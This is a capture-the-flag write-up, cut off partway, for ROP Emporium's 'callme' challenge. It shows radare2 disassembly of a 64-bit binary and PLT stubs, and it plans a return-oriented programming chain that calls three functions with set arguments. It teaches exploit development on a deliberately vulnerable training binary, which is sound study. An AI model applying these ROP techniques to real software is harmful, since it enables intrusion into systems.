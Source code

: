 This is the third challenge of ROP EMPORIUM. In this challenge we need to call three functions in order passing it three paramether as the website told us. 

> You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)

# x86_64 (64 bit) architecture

As usual we have the pwnme function and the usefulFunction

```asm
┌ 74: sym.usefulFunction ();
│           0x004008f2      55             push rbp
│           0x004008f3      4889e5         mov rbp, rsp
│           0x004008f6      ba06000000     mov edx, 6
│           0x004008fb      be05000000     mov esi, 5
│           0x00400900      bf04000000     mov edi, 4
│           0x00400905      e8e6fdffff     call sym.imp.callme_three
│           0x0040090a      ba06000000     mov edx, 6
│           0x0040090f      be05000000     mov esi, 5
│           0x00400914      bf04000000     mov edi, 4
│           0x00400919      e822feffff     call sym.imp.callme_two
│           0x0040091e      ba06000000     mov edx, 6
│           0x00400923      be05000000     mov esi, 5
│           0x00400928      bf04000000     mov edi, 4
│           0x0040092d      e8eefdffff     call sym.imp.callme_one
│           0x00400932      bf01000000     mov edi, 1                  ; int status
└           0x00400937      e814feffff     call sym.imp.exit           ; void exit(int status)
```
In order to make multiple call from our rop chain we need to use the plt section because we cannot jump directly to 0x0040092d, 0x00400919 and 0x00400905 because this will mess our stack and in our stack is placed our rop code. 

So we need the position of the plt entry for all the funtions and then a gadget that pop rdx, rsi and rdi.

This is the output of rabin for the relocation 

```

[0x00400720]> s sym.imp.callme_one 
[0x00400720]> pd 3
        ╎   ; CALL XREF from sym.usefulFunction @ 0x40092d
┌ 6: sym.imp.callme_one ();
│ bp: 0 (vars 0, args 0)
│ sp: 0 (vars 0, args 0)
│ rg: 0 (vars 0, args 0)
└       ╎   0x00400720      ff251a092000   jmp qword [reloc.callme_one] ; [0x601040:8]=0x400726 ; "&\a@"
        ╎   0x00400726      6805000000     push 5                      ; 5
        └─< 0x0040072b      e990ffffff     jmp sym..plt
[0x00400720]> s sym.imp.callme_two 
[0x00400740]> pd 3
        ╎   ; CALL XREF from sym.usefulFunction @ 0x400919
┌ 6: sym.imp.callme_two ();
│ bp: 0 (vars 0, args 0)
│ sp: 0 (vars 0, args 0)
│ rg: 0 (vars 0, args 0)
└       ╎   0x00400740      ff250a092000   jmp qword [reloc.callme_two] ; [0x601050:8]=0x400746 ; "F\a@"
        ╎   0x00400746      6807000000     push 7                      ; 7
        └─< 0x0040074b      e970ffffff     jmp sym..plt
[0x00400740]> s sym.imp.callme_three 
[0x004006f0]> pd 3
```
